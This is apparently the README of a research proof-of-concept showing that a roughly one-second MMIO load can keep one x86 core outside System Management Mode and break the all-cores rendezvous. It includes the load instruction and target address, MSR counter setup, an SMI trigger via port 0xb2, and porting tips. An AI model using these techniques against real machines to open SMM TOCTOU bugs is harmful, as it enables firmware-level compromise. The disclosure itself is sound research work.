

# smiiiiiiiiiiiiiiii

Exploiting System Management Mode with a very very very very very very very long
interrupt.

## Overview

It turns out that you can break SMM — the secure, ultra privileged execution
environment running invisibly in the background of every x86 CPU — with nothing
more than an obscenely long-running machine instruction.

SMM requires that all cores are either in SMM or out of SMM at the same time.
Its security model doesn't work without this - when one thread enters SMM, it
makes all the others enter too.

To break this, all we need is someone too busy to notice they're supposed to
join SMM.

It works something like this:

```
core 0 - start a long instruction
       |
       |
       |
core 1 - invite core 0 to smm
       |
       |
       |
core 1 - enter smm
       |
       |
       |
core 1 - wait for core 0
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
core 1 - wait for core 0
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
core 1 - wait for core 0
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
core 1 - wait for core 0
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
core 1 - wait for core 0
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
core 1 - wait for core 0
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
core 1 - wait for core 0
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
core 1 - wait for core 0
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
       |
core 1 - give up
core 1 - do secret smm stuff
core 1 - finish smm
       |
       |
       |
core 0 - join smm
```

At this point, core 1 is out of SMM while core 0 is in, letting core 1 attack
core 0.  Here's the catch: for this to work we need a very, very, verrrrry long
instruction — longer than any instruction was ever supposed to take.  Most
machine instructions on a modern CPU are fast: `add` takes 1 cycle.  To get core
1 to give up waiting on core 0, we need an instruction on core 0 that takes
around 4,000,000,000 cycles — over 1 second of wall-clock time.

## The One-Second Timeout

x86 firmware runs the [following
code](https://github.com/tianocore/edk2/blob/a70c8729668f30de067f4b9db2e69baba283856e/UefiCpuPkg/PiSmmCpuDxeSmm/MpService.c)
when a CPU core enters SMM:

```c
  for (Timer = StartSyncTimer ();
       !IsSyncTimerTimeout (Timer, mTimeoutTicker) && SyncNeeded;
       )
  {
    mSmmMpSyncData->AllApArrivedWithException = AllCpusInSmmExceptBlockedDisabled ();
    if (mSmmMpSyncData->AllApArrivedWithException) {
      break;
    }

    CpuPause ();
  }
```

The code waits for all cores to enter SMM, or for up to 1 second, whichever
occurs first.  To get a core to execute SMM code while another core stays
executing *outside* SMM, we need that outside core to stay uninterruptible for
the *entire* second — an SMI is taken at an instruction boundary, so any gap
between two instructions is a door the pending SMI walks through to drag the
core in.  The delay therefore has to be a *single* instruction: one
uninterruptible op that outlasts the one-second rendezvous.

## Proof-of-Concept

There are many ways to reach the forbidden 1-second instruction, and the exact
approach will vary platform-to-platform.  But, roughly: find a high-latency MMIO
address, and then convince the CPU to read from it as slowly as possible — abuse
an undocumented region that answers reads at a crawl, then use the widest load
the ISA will give you to haul a ridiculous pile of bytes across it in a single
instruction, ideally while the other cores are elbowing onto the same bus so the
whole thing wheezes through under contention.  One read, one instruction, and
the CPU is stuck holding it for the better part of a second.

The provided [proof-of-concept](./smiiiiiiiiiiiiiiii.c)
is tuned for a Zen 3 Ryzen 7
5800H, where a wide `xmm` load from slow MMIO at
`0xfcc68860` stalls long enough to break the all-cores rendezvous:

```asm
mov     $0xfcc68860, %rsi   ; the target MMIO address
vmovdqu (%rsi), %xmm0       ; the very, very long load
```

The PoC exploits this by pitting two cores against each other.  One core is held
*outside* SMM by the long instruction — a tight loop on the very slow load:

```c
/* the victim core: spin on the ~1-second load, too busy to answer the SMI */
for (;;)
    asm volatile ("vmovdqu (%0), %%xmm0" :: "r"(mmio) : "xmm0");
```

Meanwhile another core arms the per-core SMI counters:

```c
#define MSR_PERF_CTL0  0xc0010200        /* AMD core perf event-select MSR */
#define MSR_PERF_CTR0  0xc0010201        /* the paired 48-bit counter      */

for (int cpu = 0; cpu < ACTIVE_CPUS; cpu++) {
    msr_write(cpu, MSR_PERF_CTL0, 0x43002b);  /* EN | OS | USR | event 0x2b */
    msr_write(cpu, MSR_PERF_CTR0, 0);         /* zero the count            */
}
```

Then fires a storm of SMIs:

```c
asm volatile ("outb %%al, $0xb2" :: "a"(0));  /* kick port 0xb2 -> #SMI    */
```

And reads every core's tally back:

```c
/* ...fire the storm, then read every core's tally back... */
uint64_t delta = smi_max - smi_min;
if (delta)
    puts("!!! a core ran outside SMM");
```

The counters tell the story.  If they diverge, a core kept running *outside* SMM
while the others were pulled in — it lived through SMIs the rest of them serviced
without it.



And that's the entire result: SMM's one promise, that nothing else runs
while it does, falls apart in the face of one absurdly long instruction.

## Exploitation

SMM's security relies on a simple assumption: while it runs, nothing else does.  

[There](https://www.cve.org/CVERecord?id=CVE-2021-33164) [are](https://www.cve.org/CVERecord?id=CVE-2022-30773) [100+](https://www.cve.org/CVERecord?id=CVE-2022-34398) [SMM](https://www.cve.org/CVERecord?id=CVE-2022-21198) [TOCTOU](https://www.cve.org/CVERecord?id=CVE-2022-32471) [CVEs](https://www.cve.org/CVERecord?id=CVE-2022-30283) [out](https://www.cve.org/CVERecord?id=CVE-2022-43777) [there](https://www.cve.org/CVERecord?id=CVE-2021-42055): [an](https://www.cve.org/CVERecord?id=CVE-2022-30774) [SMM](https://www.cve.org/CVERecord?id=CVE-2022-26859) [handler](https://www.cve.org/CVERecord?id=CVE-2022-32469) [checks](https://www.cve.org/CVERecord?id=CVE-2022-43778) [a](https://www.cve.org/CVERecord?id=CVE-2022-32470) [value](https://www.cve.org/CVERecord?id=CVE-2023-28075) [in](https://www.cve.org/CVERecord?id=CVE-2022-32478)
[shared](https://www.cve.org/CVERecord?id=CVE-2024-42444) [memory](https://www.cve.org/CVERecord?id=CVE-2022-33905), [then](https://www.cve.org/CVERecord?id=CVE-2024-42446) [uses](https://www.cve.org/CVERecord?id=CVE-2022-33985) [it](https://www.cve.org/CVERecord?id=CVE-2023-22612).  All you need for exploitation is to rewrite 
that value in between the check and use, and you're inside SMM.  But these
issues sit *dormant* and largely unpatched in the wild, because of one
assumption: exploitation requires something to modify the shared memory *while
SMM executes*, and because of the SMM rendezvous no CPU cores are outside SMM to
launch an attack.  The only way in — or so we thought — was a DMA-capable
peripheral writing behind the CPU's back — physical access, a malicious device —
so the whole class is written off as a hardware problem.

SMI desynchronization removes the prerequisite: an outside core, no physical
access or hardware required, can now run while SMM executes — and suddenly the
dormant CVEs become exploitable from software.

In this project, we've shown only that the window opens; but that window was the
whole reason these bugs were thought safe.

## Porting to your platform

The default `vmovdqu` at `0xfcc68860` in the proof-of-concept is a slow spot on
*this* box — a Zen 3 Ryzen 7 5800H — and likely nowhere else.  To break the
rendezvous on *your* box, you will need to retune the long instruction so the
stall outlasts *your* SMM timeout.  Some tips on how to do this:

1. **Aim at your MMIO.** Find a slow MMIO region on your platform with
   [mmiotic](https://github.com/xoreaxeaxeax/mmiotic).
2. **Widen the read.** Step `-r xmm → ymm → zmm` until the stall crosses the
   rendezvous timeout.
3. **Swap the instruction.** If no single MMIO read is slow enough, you need a
different pathologically long instruction; the
[asm-hall-of-shame](https://github.com/xoreaxeaxeax/asm-hall-of-shame) shows how
to find them.

## Building

```sh
make          # builds smiiiiiiiiiiiiiiii
```

## Usage

**The defaults are tuned to one machine.** On anything but a Zen 3 Ryzen 7
5800H, expect no divergence until you retune the long instruction — see
[Porting to your platform](#porting-to-your-platform).

Run the tool to repeatedly fire the very-very-long instruction while watching
each core's SMI counter for a divergence:

```sh
sudo ./smiiiiiiiiiiiiiiii          # default: -r xmm at 0xfcc68860
```

**Flags:**

| Flag | Default | Description |
|------|---------|-------------|
| `-r xmm\|ymm\|zmm` | `xmm` | Vector register width for the timed MMIO read (16/32/64 bytes). If no SMI count delta is observed, the tool advises stepping up to the next size. |
| `-a <phys-addr>` | `0xfcc68860` | Target physical address for the MMIO timing loop (hex `0x...` or decimal). |
| `-h`, `--help` | — | Print usage and exit. |

## Author

`smiiiiiiiiiiiiiiii` is a research effort from Christopher Domas ([@xoreaxeaxeax](https://x.com/xoreaxeaxeax)).
